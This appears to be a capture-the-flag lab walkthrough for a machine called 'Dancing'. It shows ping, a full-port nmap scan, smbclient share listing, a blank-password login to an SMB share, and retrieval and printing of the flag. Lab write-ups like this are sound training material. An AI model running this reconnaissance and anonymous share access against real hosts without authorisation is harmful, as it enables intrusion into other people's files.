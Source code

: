 ![Dancing.png](/assets/Tier-0/Dancing/dancing.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.220.36
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.220.36
```

**Output**
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```
> To attack **445** port.

3. Connect with **smbcliente**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient -L 10.129.220.36
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.220.36 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

+ Use a **Sharename** without `$`
+ We use this to login without password.


4. Login with **smblclient** to **WorkShare**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient \\\\10.129.220.36\\WorkShares
Password for [WORKGROUP\root]:
```
* Leave blank the **password field** 



5. Entry to **James.P** directory and get the **flag.txt** file.
```bash
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1732519 blocks available
smb: \James.P\> get flag.txt
```

6. Go to path **/home/kali** list files and read `flag.txt` 
```bash
┌──(kali㉿kali)-[~]
└─$ cat flag.txt 
5f61c10dffbc77a704d76016a22f1664 

```

**By: EsT**